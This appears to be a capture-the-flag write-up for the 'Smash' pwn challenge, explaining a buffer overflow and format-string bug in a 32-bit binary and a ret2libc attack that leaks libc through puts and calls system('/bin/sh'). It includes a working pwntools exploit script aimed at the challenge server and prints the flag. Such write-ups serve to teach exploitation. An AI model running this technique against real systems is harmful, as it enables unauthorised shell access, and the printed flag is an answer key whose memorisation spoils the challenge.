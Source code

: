 ```yaml
---
layout: post
title: "Smash"
author: "AnandSaminathan"
tags: ['Pwn']
---
```


**Files**
- [hello]({{site.baseurl}}/assets/Smash/hello)
- [libc.so.6]({{site.baseurl}}/assets/Smash/libc.so.6)

## Solution

This time we got a 32-bit binary along with a libc. On inspecting the binary, we found that it contains two functions - `main` and `say_hello`. `main` takes the input (but it is some what secure) but `say_hello` has some issues - it copies a longer string (the input from main) to a shorter one using `strcpy`, so buffer overflow is possible, it also prints the string using `printf` without a format string, so format string vulnerability is also present. 

And there is no code which prints a flag and system function is also not imported, so reverse shell has to be spawned using the `system` function and "/bin/sh" string (as a parameter to `system`) present in the libc. Using buffer overflow, the return address of `say_hello` can we overwritten with `system` along with "/bin/sh" as input, but their addresses are not deterministic because they are not used by the binary and libc has ASLR protection. One thing that is deterministic about `system` and "/bin/sh" is their offsets in libc itself (because we have the libc file). So using the vulnerabilities in `say_hello`, we had to:

* Find the base address of libc during runtime.
* Use the base address and the offsets to compute the correct addresses of `system` and "/bin/sh".
* Overwrite the return address of `say_hello` with `system`'s address with "/bin/sh" address as the parameter.

We tried finding the base address of libc using the format string vulnerability, it was 42 positions from the stack pointer, that exploit worked locally but didn't work in the server. So we used the `puts` function which was imported by the binary to leak libc base. As `puts` is imported by the binary, it has a GOT and PLT entry inside the binary and the binary is not position independent, so the address of GOT and PLT entries for `puts` is deterministic - with this intel, `puts` function can be called via buffer overflow (using PLT entry) and when calling `puts` if the parameter points to the GOT entry of `puts`, it will spit out the address of `puts` during runtime. The base address of libc will be the difference between the runtime address of `puts` and it's offset in libc. After leakinig the address, the control has to come back to `say_hello` or `main` to ensure that a reverse shell can be generated using the actual address of `system` and "/bin/sh" (with another buffer overflow).

This script worked:

```
from pwn import *

elf = ELF('./hello')
libc = ELF('./libc.so.6')
io = remote('chall.csivit.com', 30046)
io.recvline()

# return to puts from say_hello, leak puts address and go back to main
payload = "A"*136 + "\xb0\x84\x04\x08\xf0\x84\x04\x08\x24\xa0\x04\x08"
io.sendline(payload)
io.recvline()
puts = io.recv(4)
io.recvline()
puts = u32(puts)
libc_base = puts - 0x5f150
system = libc_base + 0x3a950
binsh = libc_base + 0x15910b

# spawn shell
payload = b"A"*136 + p32(system) + b"A"*4 + p32(binsh) 
io.recvline()
io.sendline(payload)

io.interactive()
```

After getting a shell, there was a file called `flag.txt` which contained the flag.

## Flag
```
csictf{5up32_m4210_5m45h_8202}
```
